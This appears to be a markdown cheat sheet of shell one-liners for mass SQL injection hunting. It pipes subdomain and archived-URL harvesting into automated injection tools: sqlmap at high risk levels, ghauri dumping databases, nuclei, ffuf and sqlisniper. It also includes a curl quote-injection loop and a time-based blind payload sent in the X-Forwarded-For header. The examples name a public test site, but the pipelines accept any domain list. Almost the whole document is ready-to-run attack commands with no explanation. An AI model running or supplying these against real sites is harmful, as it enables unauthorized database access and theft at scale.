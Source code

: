 # SQLis

### Mass error based sqli hunting

```
subfinder -dL domain.txt -recursive -all -silent | httpx -mc 200 | waybackurls | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/pvt-template/SQLi/error-based-sqli/ -dast -o sqlis.txt
```

### waymore, qsreplace, gf, ghauri

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore, qsreplace, gf, sqlmc

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlmc --url "$urls" -d 3 -o sqlmc.txt; done
```

### waymore, qsreplace, gf, nuclei

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/nuclei-templates/dast/vulnerabilities/sqli/sqli-error-based.yaml -dast -o nuclei_sqli.txt
```


### waybackurls, gf, sqlmap

```
waybackurls | sort -u | gf sqli >> sqli; sqlmap -m sqli --batch --random-agent --level 3 --risk 3
```

### subfinder, httpx, waybackurls, gf, ghauri

```
subfinder -d vulnweb.com -recursive -all -silent | httpx | waybackurls | sort -u | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore

```
waymore -i "testphp.vulnweb.com" -n -mode U | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


# Blind SQLis

### waymore, qsreplace, gf, sqlisniper

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlisniper -p -u "$urls" --payload /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/bsqli-sniper.txt --headers /opt/sqli/SqliSniper/headers.txt -o SQLi_blind_sniper.txt; done
```

### waybackurls

```
waybackurls -no-subs testphp.vulnweb.com | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt 
```

### waymore, qsreplace, gf, ffuf

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace "FUZZ" | gf sqli | sort -u | while read urls; do ffuf -u "$urls" -w /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/blind-sqli.txt -mt ">18000" -v -mc 200 -enc FUZZ:urlencode -timeout 150 -o SQLi_blind_ffuf.json; done
```


# Header based SQLis

```
subfinder -d vulnweb.com -recursive -all -silent | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13' | tee -a header_based_bsqli.txt
```




# Resources

https://github.com/Gerxnox/One-Liner-Collections

https://github.com/0xPugal/One-Liners

https://github.com/daffainfo/Oneliner-Bugbounty

https://github.com/thecybertix/One-Liner-Collections

https://github.com/dwisiswant0/awesome-oneliner-bugbounty
